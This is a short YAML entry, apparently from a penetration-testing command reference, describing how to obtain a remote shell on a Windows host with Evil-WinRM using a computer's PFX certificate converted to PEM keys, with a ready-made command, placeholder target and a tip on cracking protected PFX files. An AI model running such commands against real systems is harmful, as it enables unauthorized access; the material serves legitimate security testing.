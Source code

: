 ```yaml
---
description: |
  Evil-WinRM uses the Windows Management Instrumentation (WMI) to give you an interactive shell on the Windows host. Winrm Supports PKINIT, meaning if you have a computers PFX file, you can authenticate and get a shell. Note that the command requires a public and a private key in PEM format, that can be extracted by converting the PFX to PEM format. Take a look at the references for more info on that. Password protected PFX files can be cracked with JohnTheRipper.

  Command Reference:

    Target IP: 10.10.10.1

    PFX File: cert.pfx

    Domain: EVILCORP

command: |
  evil-winrm -i 10.10.10.1 -c pub.pem -k priv.pem -S -r EVILCORP
items:
  - PFX
services:
  - WMI
OS:
  - Windows
attack_types:
  - Exploitation
references:
  - https://github.com/Hackplayers/evil-winrm
  - https://book.hacktricks.xyz/cryptography/certificates
---
```

